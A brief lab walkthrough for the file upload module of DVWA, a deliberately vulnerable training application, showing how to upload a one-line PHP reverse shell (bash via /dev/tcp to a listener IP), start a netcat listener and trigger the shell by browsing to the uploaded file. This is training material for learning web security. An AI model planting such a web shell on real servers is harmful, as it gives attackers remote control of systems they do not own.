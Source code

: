 📤 File Upload – Low Security Level

### 🛠️ Objective:
Upload a PHP web shell to gain remote code execution.

---

### 🧭 Walkthrough

1. Create a PHP reverse shell file with the following content:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/1234 0>&1'"); ?>
````

> 📌 Replace `192.168.1.1` with your machine’s IP address.

2. Save the file as:

```
shell.php
```

3. Upload the file using the DVWA form.

✅ If successful, DVWA will show you the **file path** like:

```
hackable/uploads/shell.php
```

4. In your terminal, start a Netcat listener:

```bash
nc -lnvp 1234
```

5. Open a new browser tab and access the uploaded PHP file:

```
http://127.0.0.1/DVWA/hackable/uploads/shell.php
```

🎯 This will trigger the reverse shell.

---

### 🧩 Summary

* ✅ No extension or MIME type check
* ✅ PHP is executable on upload
* ❌ No sanitization or validation

## ✅ Status

* ✅ Fully exploitable
* 🟢 Beginner-friendly
